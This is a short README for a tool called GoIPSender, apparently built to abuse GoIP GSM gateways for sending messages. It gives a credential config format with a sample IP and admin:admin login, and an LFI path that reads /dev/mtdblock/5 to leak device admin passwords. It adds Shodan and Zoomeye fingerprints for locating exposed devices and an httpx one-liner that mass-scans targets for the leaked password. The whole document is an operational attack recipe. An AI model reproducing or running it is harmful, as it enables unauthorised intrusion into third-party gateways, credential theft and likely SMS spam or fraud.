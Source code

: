 # GoIPSender

# Config
``host|user:pass,line``
example: ``177.30.254.36:81|admin:admin,8``
## LFI GoIP Dbltek
``http://ip:port/default/en_US/frame.html?content=/dev/mtdblock/5``
### Export results
**Zoomeye**: ``/default/en_US/status.html``
<br/>
**Shodan**: ``HTTP/1.0 401 Please Authenticate WWW-Authenticate: Basic realm="Please Login"``
### Check valid targets
```sh
cat exportresults | httpx -mc 200 -s -path "/default/en_US/frame.html?content=/dev/mtdblock/5" -ms "ADMIN_PASSWORD" -t | grep -iEv "(RoIP|Bank)"
```
<br/><br/>
![image](https://user-images.githubusercontent.com/74382279/198907983-7b0c6075-fdca-41ef-aba9-fe393d0b7b3e.png)
